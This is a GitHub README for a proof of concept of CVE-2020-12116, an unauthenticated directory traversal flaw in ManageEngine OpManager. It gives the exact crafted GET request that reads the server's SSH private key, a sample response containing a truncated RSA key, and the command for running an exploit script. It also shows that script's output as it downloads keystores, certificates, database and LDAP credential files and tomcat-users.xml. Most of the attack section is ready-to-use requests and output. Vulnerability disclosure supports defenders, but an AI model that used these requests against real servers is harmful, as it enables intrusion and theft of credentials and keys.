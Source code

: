 # CVE-2020-12116
Proof of concept code to exploit [CVE-2020-12116](https://nvd.nist.gov/vuln/detail/CVE-2020-12116): Unauthenticated arbitrary file read on [ManageEngine OpManger](https://www.manageengine.com/network-monitoring/help/read-me-complete.html#125125).

## Summary
The latest release of OpManger contains a directory traversal vulnerability that
allows unrestricted access to every file in the OpManager application. This
includes private SSH keys, password protected Java keystores, and configuration
files containing passwords to keystores, private certificates, and the backend
database. If LDAP is configured then domain credentials can be obtained from
"conf/OpManager/ldap.conf".

## Vulnerability Analysis
Make an unauthenticated GET request to the root directory of the ManageEngine
OpManager Application, by default, on port 8060.

```
GET / HTTP/1.1
Host: <HOSTNAME>:8060
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

The response HTML will contain cached javascript "src" URLs.

```
<SCRIPT LANGUAGE="javascript" SRC="/cachestart/125116/cacheend/apiclient/fluidicv2/
javascript/jquery/jquery-3.4.1.min.js"></SCRIPT>
```

The excerpt "SRC" URL above contains a directory traversal vulnerability allowing
for Arbitrary File Reads from the ManageEngine root installation directory. By
default the installation path is "C:\Program Files\ManageEngine\OpManager\".

NOTE: The number after "/cachestart/" is the product build number, but any number
can be used to exploit the vulnerability.

Leveraging the script source URL from the response HTML, a GET request with directory
traversal can be leveraged to read arbitrary files from the remote server.

#### REQUEST:
```
GET /cachestart/125116/cacheend/apiclient/fluidicv2/javascript/jquery/../../../../bin/.ssh_host_rsa_key HTTP/1.1
Host: <HOSTNAME>:8060
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Connection: close
Cache-Control: max-age=0
Referer: http://<HOSTNAME>:8060/
```

#### RESPONSE:
```
HTTP/1.1 200 
Set-Cookie: JSESSIONID=4E221B342BC080BC9AC2D19378364E3B; Path=/; HttpOnly
X-FRAME-OPTIONS: DENY
Accept-Ranges: bytes
ETag: W/"902-1586033949624"
Last-Modified: Sat, 04 Apr 2020 20:59:09 GMT
Vary: Accept-Encoding
Date: Mon, 13 Apr 2020 15:40:01 GMT
Connection: close
Content-Length: 902

-----BEGIN RSA PRIVATE KEY-----
MIICX...pXqnO
-----END RSA PRIVATE KEY-----
```

## Example using provided Python3 exploit code
#### Overview:
```
This script leverages the arbitrary file read vulnerability against ManageEngine
OpManager endpoints to download sensative files, such as private keys, private
keystores, certificates, configuration files containing passwords, etc.
```

#### Command:
```
python3 exploit.py -t <hostname/IP> -p 8060 -d ./
```

#### Output:
```
[+] bin/.ssh_host_dsa_key saved to ./bin|.ssh_host_dsa_key
[+] bin/.ssh_host_dsa_key.pub saved to ./bin|.ssh_host_dsa_key.pub
[+] bin/.ssh_host_rsa_key saved to ./bin|.ssh_host_rsa_key
[+] bin/.ssh_host_rsa_key.pub saved to ./bin|.ssh_host_rsa_key.pub
[+] conf/client.keystore saved to ./conf|client.keystore
[+] conf/customer-config.xml saved to ./conf|customer-config.xml
[+] conf/database_params.conf saved to ./conf|database_params.conf
[+] conf/FirewallAnalyzer/aaa_auth-conf.xml saved to ./conf|FirewallAnalyzer|aaa_auth-conf.xml
[+] conf/FirewallAnalyzer/auth-conf_ppm.xml saved to ./conf|FirewallAnalyzer|auth-conf_ppm.xml
[+] conf/gateway.conf saved to ./conf|gateway.conf
[+] conf/itom.truststore saved to ./conf|itom.truststore
[+] conf/netflow/auth-conf.xml saved to ./conf|netflow|auth-conf.xml
[+] conf/netflow/server.xml saved to ./conf|netflow|server.xml
[+] conf/netflow/ssl_server.xml saved to ./conf|netflow|ssl_server.xml
[+] conf/NFAEE/cs_server.xml saved to ./conf|NFAEE|cs_server.xml
[+] conf/OpManager/database_params.conf saved to ./conf|OpManager|database_params.conf
[+] conf/OpManager/database_params_DE.conf saved to ./conf|OpManager|database_params_DE.conf
[+] conf/OpManager/ldap.conf saved to ./conf|OpManager|ldap.conf
[+] conf/OpManager/MicrosoftSQL/database_params.conf saved to ./conf|OpManager|MicrosoftSQL|database_params.conf
[+] conf/OpManager/POSTGRESQL/database_params.conf saved to ./conf|OpManager|POSTGRESQL|database_params.conf
[+] conf/OpManager/POSTGRESQL/database_params_DE.conf saved to ./conf|OpManager|POSTGRESQL|database_params_DE.conf
[+] conf/OpManager/securitydbData.xml saved to ./conf|OpManager|securitydbData.xml
[+] conf/OpManager/SnmpDefaultProperties.xml saved to ./conf|OpManager|SnmpDefaultProperties.xml
[+] conf/Oputils/snmp/Community.xml saved to ./conf|Oputils|snmp|Community.xml
[+] conf/Persistence/DBconfig.xml saved to ./conf|Persistence|DBconfig.xml
[+] conf/Persistence/persistence-configurations.xml saved to ./conf|Persistence|persistence-configurations.xml
[+] conf/pmp/PMP_API.conf saved to ./conf|pmp|PMP_API.conf
[+] conf/pmp/pmp_server_cert.p12 saved to ./conf|pmp|pmp_server_cert.p12
[+] conf/product-config.xml saved to ./conf|product-config.xml
[+] conf/SANSeed.xml saved to ./conf|SANSeed.xml
[+] conf/server.keystore saved to ./conf|server.keystore
[+] conf/server.xml saved to ./conf|server.xml
[+] conf/system_properties.conf saved to ./conf|system_properties.conf
[+] conf/tomcat-users.xml saved to ./conf|tomcat-users.xml
[+] lib/OPM_APNS_Cert.p12 saved to ./lib|OPM_APNS_Cert.p12
```

## Disclaimer
This proof of concept code has been created for academic research and is not intended to be used against systems except where explicitly authorized. The code is provided as is with no guarentees or promises on its execution. I am not responsible or liable for misuse of this code.
